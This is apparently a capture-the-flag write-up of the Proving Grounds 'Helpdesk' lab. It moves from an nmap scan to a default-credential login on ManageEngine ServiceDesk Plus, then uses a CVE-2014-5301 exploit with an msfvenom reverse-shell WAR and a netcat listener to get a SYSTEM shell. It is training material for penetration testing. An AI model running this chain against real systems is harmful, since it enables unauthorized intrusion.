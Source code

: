 ### Helpdesk Proving Grounds Practice

### Difficulty =  Easy

### IP Address = 192.168.95.43

Nmap Scan:

```
┌──(mark__haxor)-[~/_/B2B/Pg/Practice/Helpdesk]
└─$ nmap -sCV -A 192.168.95.43 -p139,445,3389,8080 -oN nmapscan -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-25 14:48 WAT
Nmap scan report for 192.168.95.43
Host is up (0.21s latency).

PORT     STATE SERVICE       VERSION
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server (R) 2008 Standard 6001 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp open  ms-wbt-server Microsoft Terminal Service
8080/tcp open  http          Apache Tomcat/Coyote JSP engine 1.1
| http-cookie-flags: 
|   /: 
|     JSESSIONID: 
|_      httponly flag not set
|_http-title: ManageEngine ServiceDesk Plus
|_http-server-header: Apache-Coyote/1.1
Service Info: Host: HELPDESK; OS: Windows; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2008:r2

Host script results:
| smb2-security-mode: 
|   2.0.2: 
|_    Message signing enabled but not required
|_clock-skew: mean: 2h40m00s, deviation: 4h37m08s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server (R) 2008 Standard 6001 Service Pack 1 (Windows Server (R) 2008 Standard 6.0)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: HELPDESK
|   NetBIOS computer name: HELPDESK\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-01-25T05:48:48-08:00
| smb2-time: 
|   date: 2023-01-25T13:48:48
|_  start_date: 2023-01-25T13:45:34
|_nbstat: NetBIOS name: HELPDESK, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:bf:1b:23 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.04 seconds

```

Now lets enumerate smb

```
                                                                                                                                                                                                                  
┌──(mark__haxor)-[~/_/B2B/Pg/Practice/Helpdesk]
└─$ smbclient -L 192.168.95.43
Password for [WORKGROUP\mark]:
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.95.43 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

We can't list shares anonymously 

So lets move on to the web server on port 8080

On navigating there shows a framework called `ManageEngine ServiceDesk Plus`

And it also shows a login page 
![image](https://user-images.githubusercontent.com/113513376/214581018-725a3143-86b5-4558-8f03-e2f8d067375a.png)

Below the web page shows the version of the framwork which is `ManageEngine ServiceDesk Plus 7.6.0`

Now i'll search for default credential if i can login with it

After searching it leads here [Credential](https://help.servicedeskplus.com/introduction/start-servicedeskplus-server.html)

The default credential is `administrator:administrator`

Now lets try login in with it 

Ah sweet it works
![image](https://user-images.githubusercontent.com/113513376/214582832-691ab26b-a7ef-44d5-89b5-507d2bc7f387.png)

So now i'll search for a way to get remote code execution

Ok i found one that looks cool to try [Exploit](https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py)

Lets see what it requires

```
# Script usage: ./CVE-2014-5301.py HOST PORT USERNAME PASSWORD WARFILE
1. HOST: target host
2. PORT: target port
3. USERNAME: a valid username for ManageEngine ServiceDesk Plus
4. PASSWORD: the password for the user
5. WARFILE: a war file containing the mallicious payload
```

Ok now i'll generate the war payload to be used using msfvenom

```
msf6 > msfvenom -p java/shell_reverse_tcp LHOST=10.10.16.7 LPORT=1337 -f war -o shell.war
[*] exec: msfvenom -p java/shell_reverse_tcp LHOST=10.10.16.7 LPORT=1337 -f war -o shell.war

Payload size: 13316 bytes
Final size of war file: 13316 bytes
Saved as: shell.war
msf6 >
```

Now i'll set up netcat to catch the reverse shell

Ok now lets run the exploit code

```
┌──(mark__haxor)-[~/_/B2B/Pg/Practice/Helpdesk]
└─$ python3 exploit.py 192.168.95.43 8080 administrator administrator shell.war 
Trying http://192.168.95.43:8080/VwanfQb2A2o4h7YlCTvOx7esmsYFS4hg/lhivbcumw/qdn4tdFwyzSMzDcn
Trying http://192.168.95.43:8080/VwanfQb2A2o4h7YlCTvOx7esmsYFS4hg/lhivbcumw/9oxpnx9huReQkUY8
```

And back on the listner we get a shell 

```
┌──(mark__haxor)-[~/_/B2B/Pg/Practice/Helpdesk]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [192.168.49.59] from (UNKNOWN) [192.168.59.43] 49191
Microsoft Windows [Version 6.0.6001]
Copyright (c) 2006 Microsoft Corporation. All rights reserved.

C:\ManageEngine\ServiceDesk\bin> whoami
whoami
nt authority\system

C:\ManageEngine\ServiceDesk\bin> 
```


And we're done 

<br> <br>
[Back To Home](../../index.md)
<br>

